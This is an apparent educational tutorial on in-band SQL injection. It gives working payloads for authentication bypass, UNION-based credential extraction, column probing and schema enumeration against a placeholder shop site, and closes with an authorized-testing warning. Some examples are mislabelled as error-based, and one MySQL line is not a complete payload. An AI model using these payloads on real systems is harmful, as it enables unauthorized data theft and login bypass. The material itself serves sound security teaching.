

In-band SQL injection is a type of SQL injection attack where the attacker uses the **same communication channel** to both **inject malicious SQL queries and retrieve the results from the database**.

It is called *in-band* because the **data extraction happens in the same channel as the injection**.

<Frame caption="In-Band SQL Injection">
  
</Frame>

## SQL Injection Attack Types



## Error-Based SQL Injection

Error-based SQL injection is a technique where an attacker intentionally triggers database errors to extract information from the database. By injecting specially crafted SQL queries, the attacker forces the database management system to generate error messages that reveal sensitive data such as the database name, table names, column names, or even actual data values.

Many databases include detailed error messages when a query fails, and poorly configured applications may display these errors directly in the web response. Attackers exploit this behavior by embedding functions or operations in their payloads that cause errors containing useful information, allowing them to retrieve data quickly through the application's normal response.

<AccordionGroup>
  <Accordion title="Example: Retrieving Hidden Data">
    Imagine a shopping application that displays products in different categories. When the user clicks on the **Gifts** category, their browser requests the URL:

    ```http
    https://insecure-website.com/products?category=Gifts
    ```

    This causes the application to make a SQL query to retrieve details of the relevant products from the database:

    ```sql
    SELECT * FROM products WHERE category = 'Gifts' AND released = 1
    ```

    This SQL query asks the database to return:

    - All details (`*`).
    - From the `products` table.
    - Where the `category` is `Gifts`.
    - And `released` is `1`.

    The restriction `released = 1` is being used to hide products that are not released. We could assume for unreleased products, `released = 0`.

    The application doesn't implement any defenses against SQL injection attacks. This means an attacker can construct the following attack, for example:

    ```http
    https://insecure-website.com/products?category=Gifts'--
    ```

    This results in the SQL query:

    ```sql
    SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
    ```

    Crucially, note that `--` is a comment indicator in SQL. This means that the rest of the query is interpreted as a comment, effectively removing it. In this example, this means the query no longer includes `AND released = 1`. As a result, all products are displayed, including those that are not yet released.

    You can use a similar attack to cause the application to display all the products in any category, including categories that they don't know about:

    ```http
    https://insecure-website.com/products?category=Gifts'+OR+1=1--
    ```

    This results in the SQL query:

    ```sql
    SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
    ```

    The modified query returns all items where either the `category` is `Gifts`, or `1` is equal to `1`. As `1=1` is always true, the query returns all items.
  </Accordion>

  <Accordion title="Warning: Using OR 1=1">
    Take care when injecting the condition `OR 1=1` into a SQL query. Even if it appears to be harmless in the context you're injecting into, it's common for applications to use data from a single request in multiple different queries.

    If your condition reaches an `UPDATE` or `DELETE` statement, for example, it can result in an accidental loss of data.
  </Accordion>

  <Accordion title="Example: Subverting Application Logic">
    Imagine an application that lets users log in with a username and password. If a user submits the username `wiener` and the password `bluecheese`, the application checks the credentials by performing the following SQL query:

    ```sql
    SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
    ```

    If the query returns the details of a user, then the login is successful. Otherwise, it is rejected.

    In this case, an attacker can log in as any user without the need for a password. They can do this using the SQL comment sequence `--` to remove the password check from the `WHERE` clause of the query. For example, submitting the username `administrator'--` and a blank password results in the following query:

    ```sql
    SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
    ```

    This query returns the user whose `username` is `administrator` and successfully logs the attacker in as that user.
  </Accordion>
</AccordionGroup>

## UNION-Based SQL Injection

UNION-based SQL injection is a technique that uses the SQL `UNION` operator to combine the results of the original query with the results of a malicious query injected by the attacker.

The attacker first determines the number of columns returned by the original query and identifies which columns are displayed in the web application's response. Then they craft a `UNION SELECT` statement that retrieves data from other tables in the database, such as user credentials or sensitive records.

Because the `UNION` operator merges the results of two queries with the same structure, the injected query's results are returned as part of the normal application output, allowing the attacker to directly view extracted database information on the webpage.

### How It Works

1. The attacker finds a vulnerable input field, such as a URL parameter, form, cookie, or header.
2. The attacker injects SQL code.
3. The application sends the query to the database.
4. The database executes it.
5. The results are returned in the **same HTTP response**.

<Frame caption="UNION-Based SQL Injection">
  
</Frame>

<AccordionGroup>
  <Accordion title="Example: Retrieving Data from Other Database Tables">
    In cases where the application responds with the results of a SQL query, an attacker can use a SQL injection vulnerability to retrieve data from other tables within the database. You can use the `UNION` keyword to execute an additional `SELECT` query and append the results to the original query.

    For example, if an application executes the following query containing the user input `Gifts`:

    ```sql
    SELECT name, description FROM products WHERE category = 'Gifts'
    ```

    An attacker can submit the input:

    ```sql
    ' UNION SELECT username, password FROM users--
    ```

    This causes the application to return all usernames and passwords along with the names and descriptions of products.
  </Accordion>
</AccordionGroup>

When an application is vulnerable to SQL injection, and the results of the query are returned within the application's responses, you can use the `UNION` keyword to retrieve data from other tables within the database. This is commonly known as a **SQL injection UNION attack**.

The `UNION` keyword enables you to execute one or more additional `SELECT` queries and append the results to the original query. For example:

```sql
SELECT a, b FROM table1
UNION
SELECT c, d FROM table2
```

This SQL query returns a single result set with two columns, containing values from columns `a` and `b` in `table1` and columns `c` and `d` in `table2`.

For a `UNION` query to work, two key requirements must be met:

- The individual queries must return the same number of columns.
- The data types in each column must be compatible between the individual queries.

To carry out a SQL injection UNION attack, make sure that your attack meets these two requirements. This normally involves finding out:

- How many columns are being returned from the original query.
- Which columns returned from the original query are of a suitable data type to hold the results from the injected query.

When you perform a SQL injection UNION attack, there are two effective methods to determine how many columns are being returned from the original query.

<AccordionGroup>
  <Accordion title="Method 1: ORDER BY">
    One method involves injecting a series of `ORDER BY` clauses and incrementing the specified column index until an error occurs. For example, if the injection point is a quoted string within the `WHERE` clause of the original query, you would submit:

    **Test 1**

    ```sql
    default ORDER BY 1--
    default' ORDER BY 1--
    default" ORDER BY 1--
    ```

    **Test 2**

    ```sql
    ' ORDER BY 1--
    ' ORDER BY 2--
    ' ORDER BY 3--
    -- Continue incrementing the index
    ```

    This series of payloads modifies the original query to order the results by different columns in the result set. The column in an `ORDER BY` clause can be specified by its index, so you don't need to know the names of any columns.

    When the specified column index exceeds the number of actual columns in the result set, the database returns an error, such as:

    ```text
    The ORDER BY position number 3 is out of range of the number of items in the select list.
    ```

    The application might actually return the database error in its HTTP response, but it may also issue a generic error response. In other cases, it may simply return no results at all.

    Either way, as long as you can detect some difference in the response, you can infer how many columns are being returned from the query.
  </Accordion>

  <Accordion title="Method 2: UNION SELECT NULL">
    The second method involves submitting a series of `UNION SELECT` payloads specifying a different number of null values:

    ```sql
    ' UNION SELECT NULL--
    ' UNION SELECT NULL,NULL--
    ' UNION SELECT NULL,NULL,NULL--
    -- Continue adding NULL values
    ```

    If the number of nulls does not match the number of columns, the database returns an error, such as:

    ```text
    All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.
    ```

    We use `NULL` as the values returned from the injected `SELECT` query because the data types in each column must be compatible between the original and the injected queries. `NULL` is convertible to every common data type, so it maximizes the chance that the payload will succeed when the column count is correct.

    As with the `ORDER BY` technique, the application might actually return the database error in its HTTP response, but may return a generic error or simply return no results.

    When the number of nulls matches the number of columns, the database returns an additional row in the result set, containing null values in each column. The effect on the HTTP response depends on the application's code.

    If you are lucky, you will see some additional content within the response, such as an extra row on an HTML table. Otherwise, the null values might trigger a different error, such as a `NullPointerException`.

    In the worst case, the response might look the same as a response caused by an incorrect number of nulls. This would make this method ineffective.
  </Accordion>
</AccordionGroup>

### Oracle-Specific Syntax

On Oracle, every `SELECT` query must use the `FROM` keyword and specify a valid table. There is a built-in table on Oracle called `dual` which can be used for this purpose. So the injected queries on Oracle would need to look like:

```sql
' UNION SELECT NULL FROM DUAL--
```

The payloads described use the double-dash comment sequence `--` to comment out the remainder of the original query following the injection point. On MySQL, the double-dash sequence must be followed by a space. Alternatively, the hash character `#` can be used to identify a comment.

A SQL injection UNION attack enables you to retrieve the results from an injected query. The interesting data that you want to retrieve is normally in string form. This means you need to find one or more columns in the original query results whose data type is, or is compatible with, string data.

<AccordionGroup>
  <Accordion title="Finding Columns That Hold String Data">
    After you determine the number of required columns, you can probe each column to test whether it can hold string data. You can submit a series of `UNION SELECT` payloads that place a string value into each column in turn. For example, if the query returns four columns, you would submit:

    ```sql
    ' UNION SELECT 'a',NULL,NULL,NULL--
    ' UNION SELECT NULL,'a',NULL,NULL--
    ' UNION SELECT NULL,NULL,'a',NULL--
    ' UNION SELECT NULL,NULL,NULL,'a'--
    ```

    If the column data type is not compatible with string data, the injected query will cause a database error, such as:

    ```text
    Conversion failed when converting the varchar value 'a' to data type int.
    ```

    If an error does not occur, and the application's response contains some additional content including the injected string value, then the relevant column is suitable for retrieving string data.

    When you have determined the number of columns returned by the original query and found which columns can hold string data, you are in a position to retrieve interesting data.

    Suppose that:

    - The original query returns two columns, both of which can hold string data.
    - The injection point is a quoted string within the `WHERE` clause.
    - The database contains a table called `users` with the columns `username` and `password`.

    In this example, you can retrieve the contents of the `users` table by submitting the input:

    ```sql
    ' UNION SELECT username, password FROM users--
    ```

    In order to perform this attack, you need to know that there is a table called `users` with two columns called `username` and `password`. Without this information, you would have to guess the names of the tables and columns.

    All modern databases provide ways to examine the database structure and determine what tables and columns they contain.
  </Accordion>
</AccordionGroup>

## Retrieving Multiple Values Within a Single Column

In some cases, the query in the previous example may only return a single column.

You can retrieve multiple values together within this single column by concatenating the values together. You can include a separator to let you distinguish the combined values. For example, on Oracle you could submit the input:

<AccordionGroup>
  <Accordion title="Oracle">
    ```sql
    ' UNION SELECT username || '~' || password FROM users--
    ```

    This uses the double-pipe sequence `||`, which is a string concatenation operator on Oracle. The injected query concatenates together the values of the `username` and `password` fields, separated by the `~` character.
  </Accordion>
  <Accordion title="MySQL">
    ```sql
    SELECT CONCAT(first_name, ' ', last_name, ':', email) FROM users--
    ```
  </Accordion>
</AccordionGroup>

The results from the query contain all the usernames and passwords, for example:

```text
administrator~s3cure
wiener~peter
carlos~montoya
```

Different databases use different syntax to perform string concatenation.

## Listing the Contents of the Database

Most database types, except Oracle, have a set of views called the information schema. This provides information about the database.

For example, you can query `information_schema.tables` to list the tables in the database:

```sql
SELECT * FROM information_schema.tables
```

This returns output like the following:

```text
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
==================================================
MyDatabase    dbo           Products    BASE TABLE
MyDatabase    dbo           Users       BASE TABLE
MyDatabase    dbo           Feedback    BASE TABLE
```

This output indicates that there are three tables, called `Products`, `Users`, and `Feedback`.

You can then query `information_schema.columns` to list the columns in individual tables:

```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

This returns output like the following:

```text
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
================================================================
MyDatabase    dbo           Users       UserId       int
MyDatabase    dbo           Users       Username     varchar
MyDatabase    dbo           Users       Password     varchar
```

This output shows the columns in the specified table and the data type of each column.

### Oracle

On Oracle, you can find the same information as follows:

You can list tables by querying `all_tables`:

```sql
SELECT * FROM all_tables
```

You can list columns by querying `all_tab_columns`:

```sql
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
```

### Additional Enumeration Queries

<AccordionGroup>
  <Accordion title="List Schemas">
    ```sql
    SELECT schema_name FROM information_schema.schemata
    ```
  </Accordion>
  <Accordion title="List Tables">
    ```sql
    SELECT table_name FROM information_schema.tables
    ```
  </Accordion>
  <Accordion title="List Columns">
    ```sql
    SELECT column_name FROM information_schema.columns
    ```
  </Accordion>
  <Accordion title="Concatenate Schema Names in MySQL">
    ```sql
    SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata
    ```
  </Accordion>
  <Accordion title="Concatenate Table Names in MySQL">
    ```sql
    SELECT GROUP_CONCAT(table_name)
    FROM information_schema.tables
    WHERE table_schema = DATABASE()
    ```
  </Accordion>
  <Accordion title="List Columns for a Specific Table">
    ```sql
    SELECT GROUP_CONCAT(column_name)
    FROM information_schema.columns
    WHERE table_schema = '<DSName>'
      AND table_name = '<TableName>'
    ```
  </Accordion>
</AccordionGroup>

<Callout type="warning" title="Use only in authorized testing">
SQL injection testing can expose credentials, bypass authentication, or modify and delete records. Run these techniques only against systems you own or are explicitly authorized to assess.
</Callout>